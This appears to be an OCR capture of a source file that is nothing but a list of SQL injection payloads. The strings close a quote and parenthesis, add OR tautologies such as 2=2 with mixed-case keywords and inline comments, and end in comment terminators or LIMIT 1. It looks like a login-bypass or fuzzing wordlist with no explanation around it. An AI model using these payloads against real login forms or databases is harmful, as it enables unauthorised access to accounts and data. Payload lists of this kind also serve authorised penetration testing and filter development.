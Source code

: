                 ')oR(2)-- 2
                ')oR(2)#
                ')oR(2)/*
                ')oR(2)oR('
                ')oR 2-- 2
                ')oR 2#
                ')oR 2/*
                ')oR 2 oR('
                ')oR/**/2-- 2
                ')oR/**/2#
                ')oR/**/2/*
                ')oR/**/2/**/oR('
                ")oR("2
                ")oR"2"-- 2
                ")oR"2"#
                ")oR"2"/*
                ")oR"2"oR("
                ")oR(2)-- 2
                ")oR(2)#
                ")oR(2)/*
                ")oR(2)oR("
                ")oR 2-- 2
                ")oR 2#
                ")oR 2/*
                ")oR 2 oR("
                ")oR/**/2-- 2
                ")oR/**/2#
                ")oR/**/2/*
                ")oR/**/2/**/oR("
                ')oR'2'=('2
                ')oR'2'='2'oR('
                ')oR'2'='2'-- 2
                ')oR'2'='2'#
                ')oR'2'='2'/*
                ')oR 2=2-- 2
                ')oR 2=2#
                ')oR 2=2/*
                ')oR 2=2 oR('
                ')oR/**/2=2-- 2
                ')oR/**/2=2#
                ')oR/**/2=2/*
                ')oR/**/2=2/**/oR('
                ')oR(2)=2-- 2
                ')oR(2)=2#
                ')oR(2)=2/*
                ')oR(2)=(2)oR('
                ')oR'2'='2' LimIT 1-- 2
                ')oR'2'='2' LimIT 1#
                ')oR'2'='2' LimIT 1/*
                ')oR(2)=(2)LimIT(1)-- 2
                ')oR(2)=(2)LimIT(1)#
                ')oR(2)=(2)LimIT(1)/*
                ")oR"2"=("2
                ")oR"2"="2"oR("
                ")oR"2"="2"-- 2
                ")oR"2"="2"#
                ")oR"2"="2"/*
                ")oR 2=2-- 2
                ")oR 2=2#
                ")oR 2=2/*
                ")oR 2=2 oR("
                ")oR/**/2=2-- 2
                ")oR/**/2=2#
                ")oR/**/2=2/*